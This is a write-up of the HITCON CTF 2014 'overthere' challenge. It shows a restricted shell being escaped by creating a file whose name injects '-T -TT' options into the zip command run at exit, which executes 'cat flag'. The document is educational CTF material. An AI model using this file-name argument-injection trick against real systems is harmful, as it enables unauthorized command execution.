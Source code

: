 # HITCON CTF 2014: overthere

**Category:** Misc.
**Points:** 179
**Description:**

> ```bash
> nc 210.65.11.5 4994
> ```

## Write-up

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.

$
```

Cool, a shell!

```
$ ls -lha
total 120K
drwxrwxrwx    2 2137755712 overthere 4.0K Aug 18 01:01 .
drwx-wx-wx 1270 root       root      108K Aug 18 01:01 ..
-rw-r--r--    1 2137755712 overthere    0 Aug 18 01:01 atdog_said_it's_easy
-rw-r--r--    1 2137755712 overthere   34 Aug 18 01:01 flag

$ help
Command:
	echo, exit, touch, cat, ls
id - return user identity
uname - display information about the system
echo - write arguments to the standard output
touch - change file access and modification times
ls - list directory contents
cat - concatenate and print files
exit - backup your files and exit

$ id
uid=2137755712 gid=1001(overthere)

$ uname
Linux

$ uname -a
Linux ctf 3.13.0-30-generic #54-Ubuntu SMP Mon Jun 9 22:45:01 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, so a lot of things work. However, there are some problems. For example, you can’t directly `cat` a file:

```bash
$ cat flag
Serious? Are you kidding me?!
$ touch test
$ cat test
Serious? Are you kidding me?!
```

Output redirection doesn’t work the way you’d expect it to:

```bash
$ echo test > test
Invalid character.
```

When we type exit we see the following:

```bash
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
Done.

Did you forget to catch the flag?

Bye!
```

We can see that at exit the current working directory is passed as arguments to the `zip` command. Using `touch` to create a new file that will be used as commandline arguments to `exit` seems like a viable option. A good thing to do is to leverage the `-T`/`--test` and `-TT` options of the `zip` command which do the following:

```
-T
--test
    Test the integrity of the new zip file. If the check fails, the old zip file is unchanged and (with the -m option) no input files are removed.

-TT cmd
--unzip-command cmd
    Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used. On Unix, to use a copy of unzip in the current directory instead of the standard system unzip, could use:
    zip archive file1 file2 -T -TT "./unzip -tqq"

    In cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command. The return code is checked for success (0 on Unix).
```

With this we see that we can force the zip archive to be tested and even provide the command to test with. The hard part about this attack is that we need to be able to create a file with the filname of commandline arguments which would normally be processed by `touch` and cause an error as they are not legitimate arguments to the `touch` command. We can remedy this by using the `--` argument which reads in our filename from STDIN instead of literally from the commandline.

Leveraging this information we come up with the following command which allows us to bypass the restriction of running cat directly as well as all other restrictions.

```bash
touch -- -T -TTcat\ flag
```

We run that command and then run `exit` and get the following

```bash
root@kali:~# nc 210.65.11.5 4994

 **      ** ** **********   ******    *******   ****     **   **     **
/**     /**/**/////**///   **////**  **/////** /**/**   /**  //**   **
/**     /**/**    /**     **    //  **     //**/**//**  /**   //** **
/**********/**    /**    /**       /**      /**/** //** /**    //***
/**//////**/**    /**    /**       /**      /**/**  //**/**     **/**
/**     /**/**    /**    //**    **//**     ** /**   //****    ** //**
/**     /**/**    /**     //******  //*******  /**    //***   **   //**
//      // //     //       //////    ///////   //      ///   //     //
                                                            by oldtrick

Welcome to my shell. Just pwn to own.
$ touch -- -T -TTcat\ flag
$ exit

Start zipping file...
  adding: atdog_said_it's_easy (stored 0%)
HITCON{0ld_7rick5_alw4y5_workS!!}
PK
ocEatdog_said_it's_easyUT	���S���Sux
                                          �Z��PK
ocE��atdog_said_it's_easyUT���Sux
                                 �Z��PKZNtest of takeaway.zip OK
Done.

Did you forget to catch the flag?

Bye!
```

The flag is `HITCON{0ld_7rick5_alw4y5_workS!!}`.

## Other write-ups and resources

* [Unix Wildcards Gone Wild](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)
http://givemesecurity.info/2014/08/18/overthere-writeup-hitcon-2014/
